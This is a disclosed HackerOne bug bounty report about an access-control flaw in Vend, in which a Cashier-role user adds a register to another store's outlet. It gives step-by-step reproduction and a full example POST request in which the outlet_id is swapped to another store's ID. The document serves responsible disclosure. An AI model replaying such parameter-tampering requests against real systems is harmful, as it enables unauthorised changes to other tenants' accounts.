 # Improper access control on adding a Register to an Outlet

## Report Details
- **Report ID**: 317332
- **URL**: https://hackerone.com/reports/317332
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-18T11:40:29.315Z
- **Disclosed**: 2018-05-02T03:43:35.646Z

## Reporter
- **Username**: al88nsk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vend_vdp

## Vulnerability Information
**Summary:** User without permissions to add a Register to an Outlet can bypass this restriction and add a Register to an Outlet.

**Description:** I do not know which permission exactly controls this action, I tested this against default `Cashier` role. User with default `Cashier` role has no permission to add registers.  If a user creates his own store on `vendhq.com` then he can add a Register to an Outlet.

## Steps To Reproduce:

  1. Add a user to store A with `Cashier` role. Assume the added user's email is attacker@attacker.com
  2. Go to `Setup` -> `Outlets and Registers`
  3. Create an outlet in store A
  4. Create a new store B using email attacker@attacker.com
  5. Log in to store B with attacker@attacker.com credentials
  6. Create an outlet in store B
  7. Run Burp Suite or any other proxy to intercept requests
  8. Add a register to outlet in store B and intercept outgoing POST request
  9. Replace id in `vend_register%5Boutlet_id%5D=<outlet id>` from the request with id of outlet from store A and process the request
  10. Check outlet from store A - a register should be added to it

Request example

```
POST /register/create/outlet_id/<outled id from B> HTTP/1.1
Host: <store B>.vendhq.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://<store B>.vendhq.com/register/<outled id from B>/new?confirmed=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 694
Cookie: <Cookie>
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

vend_register%5Bid%5D=&vend_register%5Boutlet_id%5D=<outled id from A>&vend_register%5B_csrf_token%5D=<csrf token>&vend_register%5Bname%5D=6&vend_register%5Bcash_managed_payment_id%5D=<cash managed payment id>&vend_register%5Breceipt_template_id%5D=<receipt template id>&vend_register%5Binvoice_sequence%5D=1&vend_register%5Binvoice_prefix%5D=&vend_register%5Binvoice_suffix%5D=&vend_register%5Bask_for_user_on_sale%5D=0&vend_register%5Bemail_receipt%5D=1&vend_register%5Bprint_receipt%5D=1&vend_register%5Bask_for_note_on_save%5D=1&vend_register%5Bprint_note_on_receipt%5D=1&vend_register%5Bshow_discounts%5D=1&return=
```

Cashier can get id of interesting outlet from `Sales Ledger` page source.

## Impact

An attacker can add registers to outlets even if he has no permissions to do it.

## Attachments
No attachments
